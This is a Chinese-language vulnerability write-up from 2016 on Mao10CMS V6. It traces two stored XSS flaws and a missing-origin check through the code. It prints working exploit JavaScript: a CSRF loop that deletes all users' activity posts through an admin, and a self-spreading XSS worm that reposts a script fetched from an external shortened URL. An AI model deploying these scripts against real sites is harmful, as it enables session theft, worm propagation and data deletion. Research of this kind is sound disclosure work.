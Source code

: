```yaml
---
title: "Mao10CMS V6 两处过滤不严可导致XSS、CSRF、XSS Wrom"
date: 2016-08-31
---
```


# 0x00 前言 #

虽然手速没有别人快，漏洞也比较简单，还是把过程贴出来慢慢努力吧

* 官网v6.1.6版本，<http://www.mao10.com/?m=post&a=single&id=44>
* 测试环境docker wnameless/mysql-phpmyadmin(apache2，php5，mysql5)

由于该cms第一个注册的用户默认是管理员账户权限较大，其他用户再未特殊的设置下均为普通账户，在测试时需加以注意。（如下说明中admin为管理员账户，larry0x为普通账户）

# 0x01 第一处XSS #

在黑盒测试当中，普通用户登陆后在进入个人主界面，在发表动态处未对输入及输出进行过滤，可导致客户端的代码攻击：

![][1]

黑盒逆向追踪源代码分析如下：

右键源代码之后可以发现232~244为form表单进行动态内容的提交

![][2]

在do/activity.php的1~17行有：

![][3]

其中将post的content直接传递进入hmset进行数据库的操作，跟进在mysql.php中的409~439行讲保存数据的数组进行了自定义的序列化之后插入数据库：

![][4]

跟进do/function.php的50~57行，这里只是简单得序列化压缩编码保存进入了数据库：

![][5]

至此我们的恶意输入已经保存在了服务器上。

由于所有的用户动态都会反应在页面坐下脚的“最新动态的面板”当中，让我们继续看看此处的输出是否有过滤。

在全局搜索“最新动态”的div的class名“activityShowList”，可发现该模板页面在theme/default/activity.php当中，再次全局搜索activity.php的调用，发现theme/default/footer.php会对其进行包含，而footer.php在模板页面中均会被包含。

下面定位到theme/default/activity.php的1~39行：

![][6]

其会取出最近5次的用户动态，并在第35行中调用hget方法对动态的内容进行输出。

在mysql.php的366~372行当中也是对其内容反序列化后就返回结果，最终传递到模板当中：

![][7]

所以整个参数的传递过程中从入库到出库都未进行过滤直接输出后即可导致恶意的客户端代码执行。

# 0x02 第二处XSS #

第二处的XSS存在与发布文字的话题处，此处可由用户创建任意的话题，此处也未对恶意输入进行过滤并输出，进而导致客户端代码的可执行性，在查看文章和主页显示最新文章时都可触发：

![][8]

![][9]

首先在发布文章处右键源代码，定位到486~517为创建话题的form表单：

![][10]

随后跟进到do/pubform-topic.php文件中，在1~37当中：

![][11]

由于没有POST id值，直接进入21行的逻辑，虽然在第26,27行对提交的内容有严格的过滤，并在29行对数据进行序列化存储到数据库当中。但注意到在第25行则是直接对POST的话题title插入到zset表当中，而未进行任何过滤：

![][12]

由于最后的输出点在主页的热门文章当中，我们来看看输出情况是如何的，定位到theme/default/index.php中的56~62行：

![][13]

在58行中通过maoo_term_title获取文章话题的title，跟进do/function.php的918~926行：

![][14]

这里直接通过zscore函数从zset表中获取对应的content，最后输出到页面中：

![][15]

# 0x03 危害 #

以下均已最新动态的处的xss为例，当然在热门文章处也是可以利用触发的，原理相同

## XSS ##

最简单的打cookie喽：

![][16]

不过在利用时会有一些限制，在do/function.php的426~497行当中：

![][17]

这里使用token登陆我是没有找到其他的逻辑，所以就受限于485行的验证ip了，若达不到ip的话就只能进行IP伪造（该cms存在该缺陷）去暴力了

其他有趣的玩法比如插入`<script>document.location="http://www.baidu.com";</script>`就可以“恶意跳转”啦，其他的可以自己发挥～

## CSRF ##

在这里附送一个CSRF，在用户主页当中，存在一个删除用户动态的链接：

![][18]

接着让我们定位到do/delete.php的229~238行：

![][19]

在第231行虽然对权限进行了判定，只有管理员可以删除，但是并未对来源进行限制，因此可以对管理员进行CSRF攻击删除所有用户的动态信息，利用代码类似如下：

{% highlight javascript %}
<script type="text/javascript">
    for (var i = 0; i < 1000; i++) {
        if (i == 77 ) {continue; //skip itself}
        m = new Image();
        m.src = "http://localhost:8080/mao10cms-mysql/do/delete.php?type=activity&id=" + i;
    }
</script>
{% endhighlight %}

## XSS Worm ##

由于在最新动态处都会显示最新的5条动态信息，并且是包含在模板页面当中的，也就说任何用户登陆后即可加载我们插入的js，进行恶意操作，这里我以关注对应用户和发布动态（维持Worm状态）为例，js代码如下：

{% highlight javascript %}
var m = new Image();
m.src = document.getElementsByTagName('link')[0].href + "/../../../do/add_guanzhu.php?id=2";
var url = document.getElementsByTagName('link')[0].href + "/../../../do/activity.php";
var post_str = "content=hi%3Cscript%20src%3D%27http%3A%2f%2ft.cn%2fRch1cI9%27%3E%3C%2fscript%3E";
var ajax = null;
if (window.XMLHttpRequest) {
    ajax = new XMLHttpRequest();
}
else if (window.ActiveXObject) {
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
}
ajax.open("POST",url,true);
ajax.setRequestHeader("Content-type","application/x-www-form-urlencoded");
ajax.send(post_str);
{% endhighlight %}

![][20]

[1]: http://ojyzyrhpd.bkt.clouddn.com/20160831/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20160831/2.png
[3]: http://ojyzyrhpd.bkt.clouddn.com/20160831/3.png
[4]: http://ojyzyrhpd.bkt.clouddn.com/20160831/4.png
[5]: http://ojyzyrhpd.bkt.clouddn.com/20160831/5.png
[6]: http://ojyzyrhpd.bkt.clouddn.com/20160831/6.png
[7]: http://ojyzyrhpd.bkt.clouddn.com/20160831/7.png
[8]: http://ojyzyrhpd.bkt.clouddn.com/20160831/8.png
[9]: http://ojyzyrhpd.bkt.clouddn.com/20160831/9.png
[10]: http://ojyzyrhpd.bkt.clouddn.com/20160831/10.png
[11]: http://ojyzyrhpd.bkt.clouddn.com/20160831/11.png
[12]: http://ojyzyrhpd.bkt.clouddn.com/20160831/12.png
[13]: http://ojyzyrhpd.bkt.clouddn.com/20160831/13.png
[14]: http://ojyzyrhpd.bkt.clouddn.com/20160831/14.png
[15]: http://ojyzyrhpd.bkt.clouddn.com/20160831/15.png
[16]: http://ojyzyrhpd.bkt.clouddn.com/20160831/16.png
[17]: http://ojyzyrhpd.bkt.clouddn.com/20160831/17.png
[18]: http://ojyzyrhpd.bkt.clouddn.com/20160831/18.png
[19]: http://ojyzyrhpd.bkt.clouddn.com/20160831/19.png
[20]: http://ojyzyrhpd.bkt.clouddn.com/20160831/20.png
